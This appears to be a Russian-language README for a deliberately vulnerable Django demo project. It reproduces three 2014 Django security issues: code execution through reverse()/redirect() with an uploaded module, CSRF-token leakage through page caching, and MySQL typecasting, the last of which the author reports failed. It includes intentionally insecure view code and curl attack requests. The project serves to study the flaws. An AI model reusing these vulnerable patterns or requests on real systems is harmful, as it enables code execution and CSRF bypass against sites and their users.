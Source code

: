 ## Source URL

https://www.djangoproject.com/weblog/2014/apr/21/security/

```
$ pip install Django==1.6.2 MySQL-python==1.2.5
$ django-admin.py startproject django-vulnerable
```

## Issue: Unexpected code execution using reverse() ##


Обычный HTTP запрос


	$ curl localhost:8000

	       /\     /\
	      {  `---'  }
	      {  O   O  }  
	    ~~|~   V   ~|~~  
	       \  \|/  /   
	        `-----'__
	        /     \  `^\_
	       {       }\ |\_\_   W
	       |  \_/  |/ /  \_\_( )
	        \__/  /(_E     \__/
	          (  /
	           MM


Для успешной выполнения уязвимости злоумышленник должен использовать внедрить код.

Один из способов - уязвимая конфигурация `MEDIA_ROOT`.

```python
PROJECT_DIR = os.path.dirname(os.path.dirname(__file__))
MEDIA_ROOT = os.path.join(PROJECT_DIR, 'media')
```

Используя загрузку файла залили exploit в `MEDIA_ROOT`.

![upload expliot](https://raw.githubusercontent.com/toidi/django-vulnerable/master/contrib/upload_exploit.png "Upload exploit")


Теперь `MEDIA_ROOT` полноценный `Python package`, который можно импортировать.


       $ tree media/
       media/
       ├── __init__.py
       ├── __init__.pyc
       ├── pwn.py
       └── pwn.pyc


(`pyc` файлы появляются после эксплуатации уязвимости)


HTTP запрос злоумышленника


	$ curl localhost:8000?next=media.pwn.own

	                     .ed"""" """$$$$be.
	                   -"           ^""**$$$e.
	                 ."                   '$$$c
	                /                      "4$$b
	               d  3                      $$$$
	               $  *                   .$$$$$$
	              .$  ^c           $$$$$e$$$$$$$$.
	              d$L  4.         4$$$$$$$$$$$$$$b
	              $$$$b ^ceeeee.  4$$ECL.F*$$$$$$$
	  e$""=.      $$$$P d$$$$F $ $$$$$$$$$- $$$$$$
	 z$$b. ^c     3$$$F "$$$$b   $"$$$$$$$  $$$$*"      .=""$c
	4$$$$L        $$P"  "$$b   .$ $$$$$...e$$        .=  e$$$.
	^*$$$$$c  %..   *c    ..    $$ 3$$$$$$$$$$eF     zP  d$$$$$
	  "**$$$ec   "   %ce""    $$$  $$$$$$$$$$*    .r" =$$$$P""
	        "*$b.  "c  *$e.    *** d$$$$$"L$$    .d"  e$$***"
	          ^*$$c ^$c $$$      4J$$$$$% $$$ .e*".eeP"
	             "$$$$$$"'$=e....$*$$**$cz$$" "..d$*"
	               "*$$$  *=%4.$ L L$ P3$$$F $$$P"
	                  "$   "%*ebJLzb$e$$$$$b $P"
	                    %..      4$$$$$$$$$$ "
	                     $$$e   z$$$$$$$$$$%
	                      "*$c  "$$$$$$$P"
	                       ."""*$$$$$$$$bc
	                    .-"    .$***$$$"""*e.
	                 .-"    .e$"     "*$c  ^*b.
	          .=*""""    .e$*"          "*bc  "*$e..
	        .$"        .z*"               ^*$e.   "*****e.
	        $$ee$c   .d"                     "*$.        3.
	        ^*$E")$..$"                         *   .ee==d%
	           $.d$$$*                           *  J$$$e*
	            """""                              "$$$"


В этом случае происходим импорт модуля `media.pwn` с выполнением `import side effect`

Роковой участок кода

```python
def CVE_2014_0472(request):
    if 'next' in request.GET:
        return redirect(request.GET['next'])
```


## Issue: Caching of anonymous pages could reveal CSRF token ##

### Анатомия уязвимости

	$ curl -I localhost:8000/boom/
	HTTP/1.0 200 OK
	Date: Sun, 04 May 2014 14:58:59 GMT
	Server: WSGIServer/0.1 Python/2.7.6
	Expires: Sun, 04 May 2014 15:07:25 GMT
	Vary: Cookie
	Last-Modified: Sun, 04 May 2014 14:57:25 GMT
	Cache-Control: max-age=600
	X-Frame-Options: SAMEORIGIN
	Content-Type: text/html; charset=utf-8
	Set-Cookie:  csrftoken=EbLMgjQ9g62hzmeaEovXkhhqwIQmKst1; expires=Sun, 03-May-2015 14:57:24 GMT; Max-Age=31449600; Path=/

### Пример

0. Пример кода с view

  ```python
  @csrf_protect
  @cache_page(60 * 10)
  def CVE_2014_0473(request):
      if request.POST:
          return HttpResponse('BOOM!')
      return HttpResponse(unicode(csrf(request)['csrf_token']))
  ```

1. Представим ситуацию. Жертва - постоянный анонимный пользователь сайта.

  ```
  $ curl localhost:8000/boom/
  7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc
  ```

2. У злоумышленника есть сайт и механизм(бот), который ходит на сайт жертвы и получает куки анонимов из кэша

3. (прил) пользователь заходит на сайт злоумышленника и там выполняется AJAX запрос аналогичный

  ```
  $ curl --request POST \
	--cookie "csrftoken=7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc" \
	--data "csrfmiddlewaretoken=7Z7YC0t8KhN0wU0wN97I5LN6zrhLFFNc" \
	localhost:8000/boom/
  BOOM!
  ```

## Issue: MySQL typecasting

Попытаемся разобраться о чем идет речь


	>>> query_obj = CVE_2014_0474_Blacklist.objects.filter(ip=192.168)
	>>> print query_obj.query
	SELECT `blacklist`.`id`, `blacklist`.`ip` FROM `blacklist` WHERE `blacklist`.`ip` = 192.168

	mysql> SELECT `blacklist`.`id`, `blacklist`.`ip` FROM `blacklist` WHERE `blacklist`.`ip` = 192.168;
	+----+---------------+
	| id | ip            |
	+----+---------------+
	|  2 | 192.168.0.1   |
	|  3 | 192.168.83.17 |
	+----+---------------+
	2 rows in set, 3 warnings (0,01 sec)


Варианты использования:

У злоумышленника появился доступ к очереди(например RabbitMQ) celery.

Celery сериализует аргументы функций. Можно сериализовать число туда, где приложение ожидает строку.

Потенциальная атака: попытаемся удалить всю подсетку из фаервола:


	>>> query_obj.delete()
	Traceback (most recent call last):
	  File "<console>", line 1, in <module>
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/query.py", line 465, in delete
	    collector.delete()
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/deletion.py", line 260, in delete
	    qs._raw_delete(using=self.using)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/query.py", line 476, in _raw_delete
	    sql.DeleteQuery(self.model).delete_qs(self, using)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/sql/subqueries.py", line 85, in delete_qs
	    self.get_compiler(using).execute_sql(None)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/models/sql/compiler.py", line 782, in execute_sql
	    cursor.execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/util.py", line 69, in execute
	    return super(CursorDebugWrapper, self).execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/util.py", line 53, in execute
	    return self.cursor.execute(sql, params)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/django/db/backends/mysql/base.py", line 124, in execute
	    return self.cursor.execute(query, args)
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/MySQLdb/cursors.py", line 207, in execute
	    if not self._defer_warnings: self._warning_check()
	  File "/Users/e.iskandarov/.virtualenvs/security/lib/python2.7/site-packages/MySQLdb/cursors.py", line 117, in _warning_check
	    warn(w[-1], self.Warning, 3)
	Warning: Truncated incorrect DOUBLE value: '127.0.0.1                                    '


От успешной эксплуатации уязвимости спасает то, что MySQL выдает предупреждения, а Django воспринимает их как ошибки и предотвращает выполнение запроса.


	mysql> SHOW WARNINGS;
	+---------+------+-----------------------------------------------------------------------------------+
	| Level   | Code | Message                                                                           |
	+---------+------+-----------------------------------------------------------------------------------+
	| Warning | 1292 | Truncated incorrect DOUBLE value: '127.0.0.1                                    ' |
	| Warning | 1292 | Truncated incorrect DOUBLE value: '192.168.0.1                                  ' |
	| Warning | 1292 | Truncated incorrect DOUBLE value: '192.168.83.17                                ' |
	+---------+------+-----------------------------------------------------------------------------------+
	3 rows in set (0,00 sec)


На этом я решил остановиться. Эксплуатировать уязвимость не получилось.

Заинтересованным можно попробовать продолжить разные комбинации MySQL и Python коннектора для успешной выполнения атаки.
